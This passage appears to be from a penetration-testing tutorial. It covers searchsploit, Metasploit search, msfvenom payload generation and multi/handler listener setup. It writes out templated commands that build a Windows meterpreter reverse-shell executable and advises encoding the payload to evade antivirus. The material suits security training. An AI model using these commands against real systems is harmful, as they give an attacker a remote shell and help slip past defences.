 You can also use a tool named [searchsploit](https://www.exploit-db.com/searchsploit), which is the command-line tool for the exploit-db website.\
You run the command: `searchsploit <software/service> <version>` to search for exploits.

Another method is loading up `msfconsole` and using the `search` command to search for a service to see if there is a metasploit module already created that you can use.


## Generating Payloads
### Msfvenom

You can use `msfvenom` to quickly generate a multitude of payload types.\
Including meterpreter shells which you can use to take advantage of metasploit modules within a compromised machine.

```
msfvenom --list all
[Used to list the available modules (payload, encoders, etc.)]

msfvenom -p <payload_type> LHOST=<Listener_IP|Hostname|Domain> LPORT=<Listener_Port> -f <output_format> -o <output_name>
[General msfvenom command template]

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Listener_IP> LPORT=<Listener_Port> -f exe -o payload.exe
[Generates a meterpreter shell for Windows (64-bit) in an EXE format]

You can use the '-e' argument and supply an encoder type to encode the payload, this can help prevent detection by AV (anti-virus) software.
```

- Setting up a listener

If you are using a meterpreter payload, you should setup a listener, before deploying the payload, using `msfconsole`.

```
Commands to run:

- msfconsole
- use exploit/multi/handler
- set PAYLOAD <payload_type_used>
- set LHOST <Listener_IP_used>
- set LPORT <Listener_Port_used>
- run
```
If the listener fails to start correctly, you should check that you are attempting to listen on the correct IP (LHOST).\
Another issue could be that if you are attempting to listen on a port below 1024, these are considered "privileged ports". You should run `msfconsole` with administrative permissions (using `sudo`).

### [revgen](https://github.com/acfirthh/revgen)

Another tool you can use to generate quick one-line reverse shell payloads is `revgen`.\
This is a tool written by myself in Python3. It is a command line tool that takes only three parameters, and one optional parameter.
